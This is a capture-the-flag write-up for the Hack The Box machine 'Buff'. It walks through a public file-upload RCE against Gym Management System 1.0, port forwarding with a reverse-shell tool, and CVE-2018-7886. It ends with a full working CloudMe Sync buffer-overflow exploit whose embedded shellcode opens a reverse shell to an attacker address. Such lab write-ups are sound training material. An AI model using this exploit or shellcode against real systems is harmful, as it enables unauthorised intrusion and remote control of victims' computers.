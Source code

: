 ```yaml
---
title: Buff - Hack The Box
excerpt: "Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access."
date: 2020-11-21
image: /assets/images/htb-writeup-buff/buff_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - buffer overflow
  - cve
  - windows
  - file upload
  - cloudme sync
---
```



Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access.

## Summary

- Use unauthenticated file upload vulnerability in Gym Management System 1.0 to get RCE
- Exploit a buffer overflow vulnerability in the CloudMe Sync application to get RCE as Administrator

## Portscan

![image-20200726162532670](/assets/images/htb-writeup-buff/image-20200726162532670.png)

## Website

There's a PHP web application running on port 8080 and it looks like it's a fitness/gym website.

![image-20200726161829858](/assets/images/htb-writeup-buff/image-20200726161829858.png)

![image-20200726162013695](/assets/images/htb-writeup-buff/image-20200726162013695.png)

![image-20200726162040519](/assets/images/htb-writeup-buff/image-20200726162040519.png)

![image-20200726162116526](/assets/images/htb-writeup-buff/image-20200726162116526.png)

The Contact page shows a possible software name / version which we'll look up on Exploit-DB.

![image-20200726162202199](/assets/images/htb-writeup-buff/image-20200726162202199.png)

Exploit-DB has a match for Gym Management System 1.0. At the bottom of every page on the website we see `projectworlds.in` so it's a fair guess that this is the software running this website.

![image-20200726162258198](/assets/images/htb-writeup-buff/image-20200726162258198.png)

Luckily for us, the exploit is unauthenticated and provides remote execution so we don't need anything else to get started.

```
# Exploit Title: Gym Management System 1.0 - Unauthenticated Remote Code Execution
# Exploit Author: Bobby Cooke
# Date: 2020-05-21
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
# Version: 1.0
# Tested On: Windows 10 Pro 1909 (x64_86) + XAMPP 7.4.4
# Exploit Tested Using: Python 2.7.17
# Vulnerability Description: 
#   Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
[...]
```

## Gym Management System exploitation

The exploit provides a nice pseudo-shell which is useful for looking around and running other commands. We can see our initial shell is running as user **Shaun** and that we can get the first flag.

![image-20200726162806589](/assets/images/htb-writeup-buff/image-20200726162806589.png)

## Priv esc

Checking the open ports on the machine, we see there's a MySQL instance running on port 3306 and something else running on port 8888.

![image-20200726163049549](/assets/images/htb-writeup-buff/image-20200726163049549.png)

On Exploit-DB we can find a few vulnerabilities for CloudMe Sync. I've highlighted the exploit I used. The CloudMe Sync software is not compiled with any of the protections enabled like ASLR and DEP so a good old buffer overflow with shellcode executable on the stack will work fine.

![image-20200726185742784](/assets/images/htb-writeup-buff/image-20200726185742784.png)

We'll need to do some port-forwarding to be able to reach port 8888 with our exploit. I could use plink or metasploit to do that but instead I'll use the https://github.com/xct/xc reverse shell tool. I'll transfer the tool with smbclient.py from impacket then rename it to contain my IP address and port. It's an optional feature of xc which is nice in case you can execute a file but can't pass any parameters to it.

![image-20200726184935454](/assets/images/htb-writeup-buff/image-20200726184935454.png)

After catching the reverse shell with xc, we'll use the `!portfwd` command to redirect port 8888 on our local machine to port 8888 on the remote box.

![image-20200726185112725](/assets/images/htb-writeup-buff/image-20200726185112725.png)

Next, we'll generate a shellcode that'll spawn a reverse shell. The output is in Python3 format (it contains the b before the string indicating it's a byte type). I'll clean that up and rename buf to shellcode and stick it in the downloaded exploit.

![image-20200726185959460](/assets/images/htb-writeup-buff/image-20200726185959460.png)

Final exploit shown below:

```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
shellcode += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
shellcode += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
shellcode += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x15\x68"
shellcode += "\x02\x00\x15\xb3\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
shellcode += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
shellcode += "\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
shellcode += "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
shellcode += "\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
shellcode += "\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
shellcode += "\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += "\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
shellcode += "\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
shellcode += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
```

The exploit triggers the buffer overflow, executes our shellcode and spawn a reverse shell which we catch with a netcat listener.

![image-20200726190204674](/assets/images/htb-writeup-buff/image-20200726190204674.png)